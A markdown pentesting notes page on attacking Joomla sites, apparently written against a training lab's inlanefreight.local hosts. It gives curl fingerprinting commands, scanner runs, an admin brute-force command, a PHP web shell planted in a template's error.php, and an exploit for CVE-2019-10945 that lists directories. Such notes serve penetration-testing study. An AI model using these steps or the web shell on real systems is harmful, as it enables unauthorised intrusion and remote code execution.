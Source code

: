 ```yaml
---
title: pentesting joomla
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - CMS
  - joomla
---
```

# Pentesting joomla

Querying this API, we can see over 3 million Joomla installs!

```shell-session
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
```

## Important Joomla files and directories

Spot the use of Joomla:

```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

Interesting files:

- robot.txt
- the telltale Joomla favicon


## Joomla version

For spotting the version we can:

**1.** Read the README.txt file

```shell-session
curl -s http://$target/README.txt | head -n 5
```

**2.** Fingerprint the version from JavaScript files in the media/system/js/ directory or by browsing to administrator/manifests/files/joomla.xml.

```shell-session
curl -s http://$target/administrator/manifests/files/joomla.xml | xmllint --format -
```

**3.** Obtain the  `cache.xml` file.  It is located at `plugins/system/cache/cache.xml`.


```shell-session
curl -s http://$target/plugins/system/cache/cache.xml 
```

Run a generic scan with [droopescan](../droopescan.md)

```
# Run a generic scan
droopescan scan joomla --url http://$target/
```

Output:

```
Detailed version information. - http://app.inlanefreight.local/administrator/manifests/files/joomla.xml
    Login page. - http://app.inlanefreight.local/administrator/
    License file. - http://app.inlanefreight.local/LICENSE.txt
    Version attribute contains approx version - http://app.inlanefreight.local/plugins/system/cache/cache.xml

```


Drive a generic scan with [joomlascan](../joomlascan.md):

```
# As I have a virtual environment for 2.7:
pyenv activate 27

# Install joomlascan
git clone https://github.com/drego85/JoomlaScan.git
cd JoomlaScan

# Run the generic scan
python2.7 joomlascan.py -u http://$target

```

## Login page

Admin login page located at `http://$target/administrator/index.php`

Author login page located at `http://$target/index.php/author-login`.

The default administrator account on Joomla installs is admin, but the password is set at install time.

### joomla-bruteforce

Install from:

```
git clone https://github.com/ajnik/joomla-bruteforce.git
cd joomla-bruteforce
```

And run: 
```shell-session
sudo python3 joomla-brute.py -u http://$target -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```


## the template feature

Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

We may include this line in the error.php page

```php
system($_GET['cmd']);
```

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
curl -s http://$target/templates/protostar/error.php?cmd=id
```


## Leveraging enumeration for escalating

Once we know the version of our joomla, we may find vulnerabilities attached to it.

For instance, version 3.9.4 is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. 


We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories.

```
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```
